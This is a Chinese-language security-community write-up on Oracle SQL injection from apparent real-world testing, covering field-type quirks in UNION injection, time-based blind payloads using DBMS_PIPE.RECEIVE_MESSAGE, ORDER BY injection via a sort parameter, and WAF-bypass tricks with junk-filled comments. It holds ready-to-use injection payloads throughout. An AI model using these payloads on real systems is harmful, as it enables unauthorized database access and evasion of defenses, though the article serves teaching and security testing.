


# 奇安信攻防社区-【Web实战】Oracle注入专题——注入注意点+排序注入绕过实战之踩坑篇

### 【Web实战】Oracle注入专题——注入注意点+排序注入绕过实战之踩坑篇

前言 今天这篇SQL注入的专题给到我们的Oracle数据库，它是甲骨文公司的一款关系数据库管理系统，其中在市面上的使用率也是很高的。因此这里有必要学习一下关于它的SQL注入的一些注意事项。我会...

# 前言

今天这篇SQL注入的专题给到我们的Oracle数据库，它是甲骨文公司的一款关系数据库管理系统，其中在市面上的使用率也是很高的。因此这里有必要学习一下关于它的SQL注入的一些注意事项。我会在本篇文章中提到Oracle注入的注意点和其中的排序注入与绕过。

# Oracle注入注意点

Oracle数据库在注入过程中的特别之处在于它对于字段点数据类型敏感，需要在字符型字段使用字符型数据，整型字段使用整型数据才可以。因此它在注入的过程中便需要注意判断数据字段的类型。这里我会列出案例来让大家更好的了解。

## 案例

[https://xxx](https://xxx/)

其中点击公告信息，抓包：

其中的noteID参数存在单引号字符型注入，这里因为是纯回显的，所以就能直接判断出为oracle数据库

其中payload：

6340d33754bf402798a6051733698a3c'+and+1=dbms\_pipe.receive\_message('RDS',5)--，成功延时5秒：

2，则延时2秒：

其中还可以order by判断出列数为2：

而oracle数据库与mysql数据库不同点在于它对于字段点数据类型敏感，需要在字符型字段使用字符型数据，整型字段使用整型数据才可以：  
比如如果这里是在在MySQL数据库中，那么这里只需要`union+select+1,2`就可以了；

但是这里是oracle数据库，那么这里就有些许不同了：  
首先6340d33754bf402798a6051733698a3c'+union+select+1,2+from+dual--

这里的报错就直接提示了需要使用相同的数据类型，因此这里的字段类型为字符型。那么这里就需要将整型改变成字符型： 6340d33754bf402798a6051733698a3c'+union+select+'1','2'+from+dual--

那么这里说明两个字段都为字符型。

然后用select+banner+from+sys.v\_$version+where+rownum=1查询数据库版本信息：

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+banner+from+sys.v\_$version+where+rownum=1)+from+dual--

select instance\_name from V$INSTANCE查询当前数据库

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+instance\_name+from+V$INSTANCE)+from+dual--

获取数据库第一个表名：

select+table\_name+from+user\_tables+where+rownum=1

# 排序注入

在很多web站点中，都提供了对前端界面显示数据的排序功能，而实际中web站点的排序功能基本都是借助SQL语言的`order by`来实现的，其中的`asc`为升序排列；`desc`为降序排列。那么其中大概的SQL语句为`SELECT * FROM users ORDER BY 1 desc/asc;`这样。而存在**排序注入**的话，其中可控的便是`desc`/`asc`这个位置。

其中可以用报错盲注：`desc,updatexml(1,concat(0x7e,(database()),0x7e),1)`

也可以用延时盲注：`desc,sleep(5)`

以下我将采用案例来更好的让大家学习在Oracle数据库中的排序注入，以及我踩到的坑和如何爬出来的。

## 案例

[https://x.x.x.x/](https://x.x.x.x/%EF%BC%8C%E7%94%A8%E6%88%B7%E5%90%8Dxxx)，用户名xxx 密码xxx

其中点击新教务系统：

然后抓包：

其中的`sSortDir_0`参数发现存在关键字`asc`。那么这里进行一个合理的猜测，这个含有`asc`的参数会被拼接到sql语句中执行。  
进行完猜测后，这里便开始实践来验证我的猜想。

### 第一步：判断是否存在sql注入

其中这里我使用判断普通sql注入的方式`'`、`"`、`/0`和`/1`来进行判断，初步判断出我的猜测是正确的，确实可能存在注入。  
（这里图没存，就不贴图了）

### 第二步：判断数据库类型

这里判断出`#`不能注释：

而`--`可以注释：

而在mysql里`#`和`--`都可以注释，然后这里还是java站点，那么这里判断为Oracle数据库。

### 第三步：正式开始注入

那么这里便开始进行初步的排序注入：这里首先使用的是`exp()函数`来进行判断，其中数值大于709就会溢出，从而报错。果不其然，`asc,exp(710)`成功报错：

而`asc,exp(1)`返回成功：

  
然后这里带上延时语句：

`asc,DBMS_PIPE.RECEIVE_MESSAGE('RDS',1)`

`asc,DBMS_PIPE.RECEIVE_MESSAGE('RDS',2)`

这里可以成功延时。

### 遇到的坑

最后这里来讲讲踩到的坑吧：

这里一开始以为是MySQL数据库，又有依讯waf会拦截，然后就一直是用注MySQL的思维来绕过：

像这里依讯waf会把`sleep(1)`这样直接拦截：

不过在MySQL里这样多行注释加垃圾字符插在`sleep(1)`之间也是可以成功执行的，但是在Oracle里极其严格这样都是无法成功的：

`sleep/*666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666*/(1)`

这里附上图片：MySQL数据库里这样多行注释加垃圾字符插在`sleep(1)`之间也是可以成功延时的

这里能这么绕过，但是并没有延时。说明不是MySQL：

然后是updatexml报错注入：

这里也能用垃圾字符加多行注释来绕过，只不过这里还给拦截的原因是拦截了`@@version`。那么这里比如替换成`@@global.max_connections`来绕过waf查询全局最大连接数限制等等。

但是这里肯定是出不来的，因为这里是Oracle数据库。那么我最后是怎么发现的呢？因为我在百思不得其解的时候，突然格局打开了，重新判断了下数据库类型，然后就是上面案例中的发现了`#`不能注释，而`--`可以注释，而在MySQL数据库里`#`和`--`都可以注释，然后这里还是java站点，那么这里最终判断为Oracle数据库，然后便是直接`DBMS_PIPE.RECEIVE_MESSAGE('RDS',2)`，而且还没给依讯waf拦截：

